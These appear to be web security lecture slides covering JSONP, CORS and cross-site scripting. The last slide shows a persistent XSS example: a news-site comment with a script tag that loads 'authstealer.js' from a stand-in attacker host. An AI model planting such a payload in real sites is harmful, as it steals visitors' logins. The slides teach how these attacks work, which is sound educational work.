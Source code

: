 -###-

## Other origins: JSONP

* Use the `<script>` tag and some clever h4x:
    * `<script "application/javascript" src="ex_b.com/r1"></script>`
    * Except, ex_b.com/r1 will return JSON, not JS…
    * E.g., `{"type": "resource", "name": "r1"}`

-###-

## Other origins: JSONP

* So set source as follows:
    * "ex_b.com/r1?callback=parseResponse"
* Reponse now:
    * `parseResponse({"type": "resource", "name": "r1"})`
    * Now this is *JS*!
* Issues with this approach?

Note:
* <https://www.w3schools.com/js/tryit.asp?filename=tryjson_jsonp_callback>
* Check out source on html frame
* use JS DOM manipulation to add script tag to page
* padding is the callback function
* must accept arbitrary code from server!
* very hacky overall...

-###-

## Other origins: CORS

* Cross-Origin Resource Sharing

![CORS](images/security/cors.png)

Note:
* XHR = XMLHttpRequest
* POST usage limited to certain MIME types

-###-

## Cross-site scripting attacks

* Persistent attack example:
    * Consider the comments section of an article on news.example.com
    * Mallory notices that she can add HTML to her comments to change how they are displayed
    * E.g., adding `<em></em>` will render parts of her comments at emphasized for readers of the article
    * What happens when Mallory posts the following comment:

```
I love the puppies in this story! They're so cute!<script src="http://mallorysevilsite.com/authstealer.js">
```
